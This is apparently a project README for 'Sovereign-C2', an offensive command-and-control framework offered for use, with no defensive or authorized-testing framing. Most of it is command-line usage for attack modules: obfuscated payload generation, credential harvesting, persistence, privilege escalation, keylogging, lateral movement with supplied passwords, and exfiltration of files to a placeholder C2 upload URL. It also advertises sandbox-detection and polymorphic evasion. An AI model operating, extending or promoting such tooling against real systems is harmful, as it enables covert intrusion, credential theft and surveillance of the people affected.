 # Sovereign-C2 Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Logging and Reporting**: Detailed logging and report generation.

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    ```bash
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate
    ```

2. **Install the required dependencies**:
    ```bash
    pip install -r c2_server/requirements.txt
    ```

3. **Run the C2 server**:
    ```bash
    python c2_server/c2_server.py
    ```

### Using the CLI

The CLI provides various commands to interact with the framework.

#### List all registered agents:
```bash
python cli/cli.py list_agents
```

#### Send a command to a specific agent:
```bash
python cli/cli.py send_command --agent_id AGENT_ID --command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```bash
python cli/cli.py generate_payload --platform PLATFORM
```

#### Harvest credentials:
```bash
python cli/cli.py harvest_credentials
```

#### Establish persistence:
```bash
python cli/cli.py establish_persistence
```

#### Escalate privileges:
```bash
python cli/cli.py escalate_privileges
```

#### Gather system information:
```bash
python cli/cli.py gather_system_info
```

#### Exfiltrate data:
```bash
python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
```

#### Start keylogger:
```bash
python cli/cli.py start_keylogger --log_file_path /path/to/log_file
```

#### Move laterally:
```bash
python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
```

### Example Commands

1. **Listing all registered agents**:
    ```bash
    python cli/cli.py list_agents
    ```

2. **Sending a command to a specific agent**:
    ```bash
    python cli/cli.py send_command --agent_id 1234-5678-9101-1121 --command "whoami"
    ```

3. **Generating a payload for Windows**:
    ```bash
    python cli/cli.py generate_payload --platform windows
    ```

4. **Harvesting credentials**:
    ```bash
    python cli/cli.py harvest_credentials
    ```

5. **Establishing persistence**:
    ```bash
    python cli/cli.py establish_persistence
    ```

6. **Escalating privileges**:
    ```bash
    python cli/cli.py escalate_privileges
    ```

7. **Gathering system information**:
    ```bash
    python cli/cli.py gather_system_info
    ```

8. **Exfiltrating data**:
    ```bash
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
    ```

9. **Starting a keylogger**:
    ```bash
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file
    ```

10. **Moving laterally**:
    ```bash
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
    ```

### Logging and Reporting

Logs are stored in the `c2_server.log` file located in the `c2_server` directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data, run the following command:
```bash
python c2_server/c2_server.py generate_report
```
This will create a `report.txt` file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

### Adding New Modules

To add new post-exploitation modules, create a new Python file in the `c2_server/modules` directory and implement the desired functionality. Update the CLI script to include commands for the new module.

### Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

### License

This project is licensed under the MIT License.
